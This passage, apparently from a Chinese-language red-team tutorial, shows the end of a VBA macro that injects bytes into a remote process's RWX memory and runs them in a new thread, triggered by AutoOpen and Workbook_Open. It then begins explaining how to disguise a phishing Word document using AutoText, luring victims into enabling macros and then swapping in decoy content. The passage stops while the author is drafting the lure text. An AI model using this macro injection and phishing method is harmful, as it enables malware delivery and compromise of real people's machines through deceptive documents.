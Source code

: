 ```plaintext
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

**Word 自动图文集伪装钓鱼**

利用过程是打开 Word 文档展示一个页面，诱导你开启宏，当启用后，自动会把 Word 内容删除插入图文集内容，以迷惑人员。根本上其实就是利用宏做事情。

先建立好一个正常文档，把内容全选，通过“插入 -> 文档部件 -> 自动图文集 -> 将所选内容保存到自动图文集”，英文路径是“Insert -> Quick Parts -> Auto Text -> Save Selection to AutoText Gallery”。

![保存内容到自动图文集.png](assets/1698895384-61bccfb35e063d0bf9840cfb6e505a37.png)

正常文档保存到图文集后，可以将内容删除，后面通过宏自动插入。目前需要诱导受害者开启宏，我们编辑一条文案。
